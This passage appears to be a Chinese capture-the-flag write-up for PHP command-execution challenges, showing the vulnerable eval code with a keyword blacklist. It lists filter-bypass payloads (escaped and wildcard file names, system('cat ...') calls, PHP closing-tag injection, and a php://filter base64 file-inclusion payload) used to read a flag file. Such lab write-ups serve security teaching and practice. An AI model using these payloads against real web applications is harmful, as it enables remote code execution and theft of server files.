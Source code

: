 还可以这样绕过

```
fla\g.php
fla''g.php
```



payload :

```
?c=system('cat *');
?c=system('cat fl?g.php');
?c=system('cat f[a-z]ag.php');
```

执行 payload 后源代码中有显示。

另一种解法：

* eval — 把字符串作为PHP代码执行

[![BUXXi8.md.png](https://s1.ax1x.com/2020/10/31/BUXXi8.md.png)](https://imgchr.com/i/BUXXi8)

传入 `?c=echo "hello";?><?php system(ls);` 看到有flag.php ,利用文件包含。

构造：

```
?c=echo "hello";?><?php include($_GET['a']);&a=php://filter/read=convert.base64-encode/resource=flag.php
```

得到一串base64 字符串，解码得到

```php
<?php

$flag = 'flag{73c6fd37-47f1-47a4-a9a3-df83ae757139}';

```

## web30~增加命令执行函数

```
命令执行，需要严格的过滤
```

代码：

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```
